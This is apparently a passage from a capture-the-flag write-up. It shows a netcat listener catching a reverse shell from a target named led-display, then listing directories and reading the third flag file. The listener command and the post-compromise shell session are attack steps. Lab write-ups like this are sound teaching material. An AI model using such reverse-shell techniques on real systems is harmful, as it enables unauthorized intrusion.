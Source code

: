 I got the hit on my `nc` listener. And the third flag.

```bash
root@shell01:~/eric# nc -6 -knvlp 443
Listening on :: 443

Connection received on 9000:fc4c:d8a7:bb91:216:3eff:fe44:19ae 59450
bash: cannot set terminal process group (233): Inappropriate ioctl for device
bash: no job control in this shell
service@led-display:~$

service@led-display:~$ ls
ls
app.py
bin
config.ini
lib
message.txt
pyvenv.cfg
static
templates
update.sh

service@led-display:~$ ls /
ls /
bin
bin.usr-is-merged
boot
dev
etc
flag_here_1e39.txt
home
lib
lib64
lib.usr-is-merged
media
mnt
opt
proc
root
run
sbin
sbin.usr-is-merged
srv
sys
tmp
usr
var

service@led-display:~$ cat /flag_here_1e39.txt
cat /flag_here_1e39.txt
ALERT! ALERT! SECURITY BREACH! DO NOT PANIC! FLAG-baa774f220d8dc3b2b72bff39671467c (3/3)
```
